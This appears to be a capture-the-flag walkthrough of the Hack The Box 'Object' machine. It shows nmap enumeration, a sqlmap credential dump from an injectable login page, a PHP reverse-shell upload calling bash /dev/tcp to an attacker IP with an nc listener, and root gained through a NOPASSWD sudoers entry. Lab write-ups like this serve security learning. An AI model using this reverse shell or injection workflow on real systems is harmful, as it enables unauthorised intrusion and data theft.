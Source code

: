 A comprehensive walkthrough of the HTB 'Object' machine. This guide includes enumeration, exploitation, and privilege escalation techniques.

### Enumeration

We start with an `nmap` scan to identify open ports and services:

```bash
nmap -sC -sV -oN object_nmap.txt 10.10.10.10
```

The scan results showed:
```bash
PORT   STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.6
```

### Web Enumeration
Accessing the web server revealed a login page vulnerable to SQL injection. Using sqlmap to confirm:

```bash
sqlmap -u "http://10.10.10.10/login.php" --forms --dump
```

Credentials retrieved:

admin:password123

### Exploitation
Logged in as admin, we found a file upload feature. Using Burp Suite to intercept and modify the file, a PHP reverse shell was uploaded:

```bash
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.1/4444 0>&1'");
?>
```

Setting up a listener and triggering the shell:

```bash
nc -lvnp 4444
```

### Privilege Escalation
Further enumeration revealed a misconfigured /etc/sudoers file:

username ALL=(ALL) NOPASSWD: ALL

Executing sudo -i granted root access.

### Root Flag
The root flag was found in the usual location:

cat /root/root.txt

### Conclusion
This machine emphasizes the importance of thorough enumeration and knowledge of common misconfigurations.
